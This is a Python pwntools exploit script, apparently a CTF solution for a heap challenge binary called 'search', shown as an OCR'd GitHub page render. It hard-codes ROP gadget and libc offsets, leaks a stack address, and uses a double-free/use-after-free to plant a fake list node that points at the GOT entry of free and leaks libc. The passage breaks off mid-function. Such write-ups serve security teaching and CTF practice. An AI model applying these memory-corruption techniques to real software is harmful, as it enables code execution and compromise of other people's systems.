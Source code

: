 ``` c
#!/usr/bin/env python2

from pwn import *

context(arch="amd64", os="linux")

p = process('./search-bf61fbb8fa7212c814b2607a81a84adf')

pop_rdi_ret = 0x400e23
system_offset = 0x46590
puts_offset = 0x6fd60
binsh_offset = 1558723

def leak_stack():
    p.sendline('A'*48)
    p.recvuntil('Quit\n')
    p.recvline()

    # doesn't work all the time
    p.sendline('A'*48)
    leak = p.recvline().split(' ')[0][48:]
    return int(leak[::-1].encode('hex'), 16)

def leak_libc():
    # this sentence is the same size as a list node
    index_sentence(('a'*12 + ' b ').ljust(40, 'c'))

    # delete the sentence
    search('a' * 12)
    p.sendline('y')

    # the node for this sentence gets put in the previous sentence's spot.
    # note we made sure this doesn't reuse the chunk that was just freed by
    # making it 64 bytes
    index_sentence('d' * 64)

    # free the first sentence again so we can allocate something on top of it.
    # this will work because 1) the sentence no longer starts with a null byte
    # (in fact, it should be clear that it starts a pointer to 64 d's), and 2)
    # the location where our original string contained `b` is guaranteed to be
    # zero. this is because after the original sentence was zeroed out, nothing
    # was allocated at offset 12, which is just padding in the structure. if
    # we had made the first word in the string 16 bytes instead of 12, then that
    # would put 'b' at a location where it would not be guaranteed to be zero.
    search('\x00')
    p.sendline('y')

    # make our fake node
    node = ''
    node += p64(0x400E90) # word pointer "Enter"
    node += p64(5) # word length
    node += p64(0x602028) # sentence pointer (GOT address of free)
    node += p64(64) # length of sentence
    node += p64(0x00000000) # next pointer is null
    assert len(node) == 40

    # this sentence gets allocated on top of the previous sentence's node.
    # we can thus control the sentence pointer of that node and leak memory.
    index_sentence(node)

    # this simply receives all input from the binary and discards it, which
    # makes parsing out the leaked address easier below.
    p.clean()
```